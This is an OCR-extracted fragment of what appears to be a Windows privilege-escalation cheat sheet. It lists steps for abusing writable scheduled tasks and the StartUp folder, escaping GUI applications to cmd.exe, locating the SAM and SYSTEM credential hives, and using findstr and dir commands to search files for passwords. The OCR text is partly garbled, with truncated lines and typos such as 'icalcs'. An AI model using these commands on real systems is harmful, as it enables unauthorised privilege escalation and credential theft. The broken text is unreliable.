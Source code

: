 #Permission check - Writable means exploitable!

icalcs \"path\"

#Wait till the scheduled task in executed, then we\'ll get a shell

## Startup Apps

C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp
#Startup applications can be

#Check writable permissions and transfer

#The only catch here is the system needs to be restarted

## Insecure GUI apps

#Check the applications that are running from \"TaskManager\" and obtain
list of application

#Open that particular application, using \"open\" feature enter the
following

file://c:/windows/system32/cmd.exe

## Passwords

### Sensitive files

%SYSTEMROOT%\\repair\\SAM

%SYSTEMROOT%\\System32\\config\\RegBack\\SAM

%SYSTEMROOT%\\System32\\config\\SAM

%SYSTEMROOT%\\repair\\system

%SYSTEMROOT%\\System32\\config\\SYSTEM

%SYSTEMROOT%\\System32\\config\\RegBack\\system

findstr /si password \*.txt

findstr /si password \*.xml

findstr /si password \*.ini

Findstr /si password \*.config

findstr /si pass/pwd \*.ini

dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*

in all files

findstr /spin \"password\" \*.\*

findstr /spin \"password\" \*.\*

### Config files
